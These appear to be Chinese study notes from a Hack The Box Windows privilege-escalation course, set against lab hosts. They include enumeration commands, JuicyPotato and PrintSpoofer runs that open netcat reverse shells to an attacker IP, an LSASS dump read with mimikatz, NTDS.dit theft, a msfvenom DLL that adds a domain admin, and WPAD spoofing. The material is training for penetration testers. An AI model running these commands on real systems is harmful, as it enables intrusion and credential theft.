

# 1、介绍

```shell-session
@htb[/htb]$  xfreerdp /v:10.129.43.36 /u:htb-student
```

## 1.1工具

[Seatbelt ](https://github.com/GhostPack/Seatbelt) 用于执行各种本地权限提升检查的 C# 项目

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) WinPEAS 是一个脚本，用于搜索可能的路径以提升 Windows 主机上的权限

[PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) PowerShell 脚本，用于查找依赖于错误配置的常见 Windows 权限提升向量。它还可用于利用发现的一些问题

[SharpUp](https://github.com/GhostPack/SharpUp) C# 版本的 PowerUp 

[JAWS](https://github.com/411Hall/JAWS) 用于枚举在 PowerShell 2.0 中编写的权限提升向量的 PowerShell 脚本

[SessionGopher](https://github.com/Arvanaghi/SessionGopher) SessionGopher 是一个 PowerShell 工具，用于查找和解密远程访问工具的已保存会话信息。它提取 PuTTY、WinSCP、SuperPuTTY、FileZilla 和 RDP 保存的会话信息

[Watson](https://github.com/rasta-mouse/Watson) Watson 是一个 .NET 工具，旨在枚举丢失的知识库并建议针对权限提升漏洞的漏洞

[LaZagne  ](https://github.com/AlessandroZ/LaZagne)用于从 Web 浏览器、聊天工具、数据库、Git、电子邮件、内存转储、PHP、系统管理工具、无线网络配置、内部 Windows 密码存储机制等检索存储在本地计算机上的密码的工具

[Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) WES-NG 是一个基于 Windows 的 `systeminfo` 实用程序输出的工具，它提供了作系统易受攻击的漏洞列表，包括针对这些漏洞的任何漏洞。支持 Windows XP 和 Windows 10 之间的每个 Windows 作系统，包括它们的 Windows Server 对应版本

[Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) 我们将在枚举中使用 Sysinternals 中的多个工具，包括 [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)、[PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) 和 [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice)

<!--工具可能是一把双刃剑。虽然它们有助于加快枚举过程并为我们提供高度详细的输出，但如果我们不知道如何读取输出或将其缩小到最有趣的数据点，我们的工作效率可能会降低。工具也会产生误报，因此我们必须深入了解许多可能的权限升级技术，以便在出现问题或看起来不像那样时进行故障排除。手动学习枚举技术将有助于确保我们不会因工具问题（如误报或误报）而遗漏明显的缺陷。-->

<!--假设他们正在寻找尽可能多的问题，并且不打算在这个阶段测试他们的防守。-->

# 2、了解情况

## 2.1态势感知

### 2.1.1网络信息

#### 2.1.1.1接口、IP 地址、DNS 信息

```cmd-session
C:\htb> ipconfig /all
```

#### 2.1.1.2ARP 表

```cmd-session
C:\htb> arp -a
```

#### 2.1.1.3路由表

```cmd-session
C:\htb> route print
```

### 2.1.2检查 Windows Defender 状态

```powershell-session
PS C:\htb> Get-MpComputerStatus
```

### 2.1.3列出 AppLocker 规则

```powershell-session
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### 2.1.4测试 AppLocker 策略

```powershell-session
PS C:\htb> Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

## 2.2初始枚举

### 2.2.1系统信息

#### 2.2.1.1任务列表

```cmd-session
C:\htb> tasklist /svc
```

#### 2.2.1.2Windows进程

[会话管理器子系统 （smss.exe）](https://en.wikipedia.org/wiki/Session_Manager_Subsystem)

[客户端服务器运行时子系统（csrss.exe)](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem)

[WinLogon （winlogon.exe）](https://en.wikipedia.org/wiki/Winlogon)

[ 本地安全机构子系统服务 （LSASS）](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) 

[服务主机 （svchost.exe）](https://en.wikipedia.org/wiki/Svchost.exe) 

#### 2.2.1.3显示所有环境变量

```cmd-session
C:\htb> set
```

<!--环境变量解释了很多关于主机配置的信息。为了获取它们的打印输出，Windows 提供了 `set` 命令。最容易被忽视的变量之一是 `PATH。` 在下面的输出中，没有什么异常。但是，发现管理员（或应用程序）修改 `PATH` 的情况并不少见。一个常见的例子是将 Python 或 Java 放在路径中，这将允许执行 Python 或 .JAR 文件。如果放置在 PATH 中的文件夹可由您的用户写入，则可以对其他应用程序执行 DLL 注入。请记住，运行程序时，Windows 会首先在 CWD（当前工作目录）中查找该程序，然后从从左到右的 PATH 中查找该程序。这意味着如果自定义路径放置在左侧（在 C：\Windows\System32 之前），则比右侧危险得多。-->

<!--除了 PATH 之外，`set` 还可以放弃其他有用的信息，例如 HOME DRIVE。在企业中，这通常是文件共享。导航到文件共享本身可能会显示可以访问的其他目录。能够访问“IT 目录”并非闻所未闻，其中包含包含密码的清单电子表格。此外，共享用于主目录，以便用户可以登录到其他计算机并具有相同的体验/文件/桌面/等（[ 漫游配置文件 ](https://docs.microsoft.com/en-us/windows-server/storage/folder-redirection/folder-redirection-rup-overview)）。这也可能意味着用户随身携带恶意项目。如果将文件放置在 `USERPROFILE\AppData\Microsoft\Windows\Start Menu\Programs\Startup` 中，当用户登录到另一台计算机时，将执行此文件。-->

####  2.2.1.4查看详细的配置信息

```cmd-session
C:\htb> systeminfo
```

<!--`systeminfo` 命令将显示该框是否最近已修补，以及它是否是 VM。如果盒子最近没有修补，获得管理员级别的访问权限可能就像运行已知漏洞一样简单。谷歌热[修复](https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix)程序下安装的知识库，以了解盒子何时已修补。此信息并不始终存在，因为可以对非管理员隐藏修补程序软件。还可以检查`系统启动时间`和`作系统版本`以了解补丁级别。如果盒子在六个月多的时间里没有重新启动，则很可能也没有修补。-->

#### 2.2.1.5补丁和更新

```cmd-session
C:\htb> wmic qfe
```

```powershell-session
PS C:\htb> Get-HotFix | ft -AutoSize
```

#### 2.2.1.6已安装的程序

```cmd-session
C:\htb> wmic product get name
```

```powershell-session
PS C:\htb> Get-WmiObject -Class Win32_Product |  select Name, Version
```

#### 2.2.1.7显示正在运行的进程

```cmd-session
PS C:\htb> netstat -ano
```

### 2.2.2用户和组信息

#### 2.2.2.1 登录用户

```cmd-session
C:\htb> query user
```

#### 2.2.2.2 当前用户

```cmd-session
C:\htb> echo %USERNAME%
```

#### 2.2.2.3当前用户权限

```cmd-session
C:\htb> whoami /priv
```

#### 2.2.2.4当前用户组信息

```cmd-session
C:\htb> whoami /groups
```

#### 2.2.2.5获取所有用户

```cmd-session
C:\htb> net user
```

#### 2.2.2.6获取所有组

```cmd-session
C:\htb> net localgroup
```

```cmd-session
C:\htb> net localgroup administrators
```

#### 2.2.2.7关于组的详细信息

```cmd-session
C:\htb> net localgroup administrators
```

#### 2.2.2.8获取密码策略和其他账户信息

```cmd-session
C:\htb> net accounts
```

## 2.3交流步骤

### 2.3.1访问令牌

### 2.3.2枚举网络服务

```cmd-session
C:\htb> netstat -ano
```

<!--使用活动网络连接时要查找的主要内容是侦听环回地址（`127.0.0.1` 和 `：：1`）的条目，这些条目不侦听 IP 地址 （`10.129.43.8`） 或广播 （`0.0.0.0，` `：：/0`）。这样做的原因是 localhost 上的网络套接字通常是不安全的，因为人们认为“网络无法访问它们”。-->

**splunk案例：**

 [Splunk Universal Forwarder Hijacking ](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) 

[SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

**Erlang案例：**

 [Mubix 的 Erlang-arce 博客文章](https://malicious.link/post/2018/erlang-arce/)

### 2.3.3命名管道

#### 2.3.3.1列出命名管道

```cmd-session
C:\htb> pipelist.exe /accepteula
```

```powershell-session
PS C:\htb>  gci \\.\pipe\
```

#### 2.3.3.2查看 LSASS 命名管道权限

```cmd-session
C:\htb> accesschk.exe /accepteula \\.\Pipe\lsass -v
```

#### 2.3.3.3检查 WindscribeService 命名管道权限

```cmd-session
C:\htb> accesschk.exe -accepteula -w \pipe\WindscribeService -v
```

# 3、用户权限

## 3.1SeImpersonate and SeAssignPrimaryToken

### 3.1.1SeImpersonate Example

#### 3.1.1.1与 MSSQLClient.py 连接

```shell-session
[/htb]$ mssqlclient.py sql_dev@10.129.43.63 -windows-auth
```

#### 3.1.1.2启用 xp_cmdshell

```shell-session
SQL> enable_xp_cmdshell
```

#### 3.1.1.3确认访问权限

```shell-session
SQL> xp_cmdshell whoami
```

#### 3.1.1.4检查账户权限

```shell-session
SQL> xp_cmdshell whoami /priv
```

#### 3.1.1.5使用 JuicyPotato 提升权限

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

### 3.1.2PrintSpoofer and RoguePotato

JuicyPotato 不适用于 Windows Server 2019 和 Windows 10 build 1809 及更高版本。但是，[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) 和 [RoguePotato](https://github.com/antonioCoco/RoguePotato) 可用于利用相同的权限并获得 `NT AUTHORITY\SYSTEM` 级别的访问权限。这篇[博文](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)深入探讨了 `PrintSpoofer` 工具，该工具可用于在 JuicyPotato 不再工作的 Windows 10 和 Server 2019 主机上滥用模拟权限。

#### 3.1.2.1使用 PrintSpoofer 提升权限

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

## 3.2 SeDebugPrivilege

### 3.2.1

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```cmd-session
C:\htb> mimikatz.exe
```

```cmd-session
mimikatz # log
```

```cmd-session
mimikatz # sekurlsa::minidump lsass.dmp
```

```cmd-session
mimikatz # sekurlsa::logonpasswords
```

<!--假设我们出于某种原因无法在目标上加载工具，但具有 RDP 访问权限。在这种情况下，我们可以通过任务管理器手动转储 `LSASS` 进程，方法是浏览到 `“详细信息”` 选项卡，选择 `LSASS` 进程，然后选择“` 创建转储文件 `”。将此文件下载回我们的攻击系统后，我们可以使用 Mimikatz 处理它，就像前面的例子一样。-->

### 3.2.2 作为system远程执行代码

https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

执行[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")

1.以管理员身份运行powershell

```powershell-session
PS C:\htb> tasklist 
```

在这里，我们可以定位在 PID 612 下运行`的 winlogon.exe`，我们知道它在 Windows 主机上以 SYSTEM 形式运行。




## 3.3 SeTakeOwnershipPrivilege

```powershell-session
whoami /priv 查看账户权限

Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1 提权

Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}查看目标文件信息

cmd /c dir /q 'C:\Department Shares\Private\IT' 检查文件所有权

takeown /f 'C:\Department Shares\Private\IT\cred.txt' 获取文件所有权

Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}确认所有权已更改

icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F授予用户对目标文件的完全权限

cat 'C:\Department Shares\Private\IT\cred.txt'读取文件
```

# 4、Windows组权限

## 4.1 Windows内置组

### 4.1.1Backup Operators组

```powershell-session
Import-Module .\SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeCmdLets.dll

whoami /priv #验证SeBackupPrivilege是否启用

Get-SeBackupPrivilege #验证SeBackupPrivilege是否启用

Set-SeBackupPrivilege #启用SeBackupPrivilege

dir C:\Confidential\ 

Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

cat  .\Contract.txt
```

### 4.1.2 攻击域控制器 复制 NTDS.dit

backup operators组还允许在本地登录到域控制器。Active Directory 数据库 `NTDS.dit` 是一个非常有吸引力的目标，因为它包含域中所有用户和计算机对象的 NTLM 哈希。但是，此文件已锁定，非特权用户也无法访问。

由于 `NTDS.dit` 文件默认锁定，因此我们可以使用 Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) 实用程序创建 `C` 盘的卷影副本并将其公开为 `E` 盘。系统不会使用此卷影副本中的 NTDS.dit。

```powershell-session
PS C:\htb> diskshadow.exe

###创建C盘的卷影副本
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:

PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit #在本地复制NTDS.dit

该权限还允许我们备份 SAM 和 SYSTEM 注册表配置单元，我们可以使用 Impacket 的 secretsdump.py 等工具离线提取本地帐户凭据
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

C:\htb> reg save HKLM\SAM SAM.SAV

提取 NTDS.dit 后，可以使用 secretsdump.py 或 PowerShell DSInternals 模块等工具提取所有 Active Directory 帐户凭据。让我们使用 DSInternals 仅获取域的管理员帐户的 NTLM 哈希值。
PS C:\htb> Import-Module .\DSInternals.psd1

PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM

PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

Robocopy 与 `copy` 命令的不同之处在于，它不仅可以复制所有文件，还可以检查目标目录并删除源目录中不再存在的文件。它还可以在复制前比较文件，通过不复制自上次复制/备份作业运行以来未更改的文件来节省时间。

```cmd-session
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

## 4.2事件日志读取器

```cmd-session
C:\htb> net localgroup "Event Log Readers" #确认组成员资格

PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"#使用 wevtutil 搜索安全日志

wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"#将凭据传递给 wevtutil

Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}#使用 Get-WinEvent 搜索安全日志
```

## 4.3 DNS管理员

### 4.3.1利用 DnsAdmins 访问权限

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll #生成恶意 DLL

python3 -m http.server 7777 #启动本地 HTTP 服务器

wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"#将文件下载到目标

dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll #以非特权用户身份加载 DLL 不成功

Get-ADGroupMember -Identity DnsAdmins#将 DLL 加载为 DnsAdmins 的成员

wmic useraccount where name="netadm" get sid #查找用户的 SID

sc.exe sdshow DNS#检查 DNS 服务的权限

sc stop dns#停止 DNS 服务

sc start dns#启动 DNS 服务

net group "Domain Admins" /dom#确认组成员资格
```

### 4.3.2清理

```cmd-session
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters#确认已添加注册表项

reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll#删除注册表项

sc.exe start dns#再次启动DNS服务

sc query dns#检查 DNS 服务状态
```

### 4.3.3使用 Mimilib.dll

我们还可以利用 `Mimikatz` 工具创建者的 [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)，通过修改 [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) 文件来执行反向 shell 单行或我们选择的其他命令来获得命令执行。

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

### 4.3.4创建WPAD记录

禁用全局查询阻止列表并创建 WPAD 记录后，每台使用默认设置运行 WPAD 的计算机都将通过我们的攻击计算机代理其流量。我们可以使用 [Responder](https://github.com/lgandx/Responder) 或 [Inveigh](https://github.com/Kevin-Robertson/Inveigh) 等工具来执行流量欺骗，并尝试捕获密码哈希并离线破解它们或执行 SMBRelay 攻击。

```powershell-session
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local#禁用全局查询阻止列表

Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3#添加指向攻击机器的  WPAD 记录
```

## 4.4Hyper-V 管理员

本[博客](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/)上也有详细记录，在删除虚拟机时，`vmms.exe` 会尝试还原相应 `.vhdx` 文件的原始文件权限，并以 `NT AUTHORITY\SYSTEM` 的身份执行此作，而无需模拟用户。我们可以删除 `.vhdx` 文件并创建一个本机硬链接，将此文件指向受保护的 SYSTEM 文件，我们将拥有该文件的完全权限。

如果操作系统容易受到 [CVE-2018-0952](https://www.tenable.com/cve/CVE-2018-0952) 或 [CVE-2019-0841](https://www.tenable.com/cve/CVE-2019-0841) 的攻击，我们可以利用它来获取 SYSTEM 权限。

Firefox例子[此漏洞 ](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1)：

```shell-session
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe #目标文件

C:\htb> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe #获取文件的所有权

sc.exe start MozillaMaintenance#用恶意 maintenanceservice.exe 替换这个文件，启动维护服务，并以 SYSTEM 的形式执行命令
```

## 4.5Print Operators

如果我们发出命令 `whoami /priv`，并且没有看到来自未提升的上下文中的 `SeLoadDriverPrivilege`，则需要绕过 UAC。

[UACMe](https://github.com/hfiref0x/UACME) 存储库具有完整的 UAC 旁路列表，可从命令行使用。或者，我们可以从 GUI 打开一个管理命令 shell 并输入作为 Print Operators 组成员的帐户的凭据。
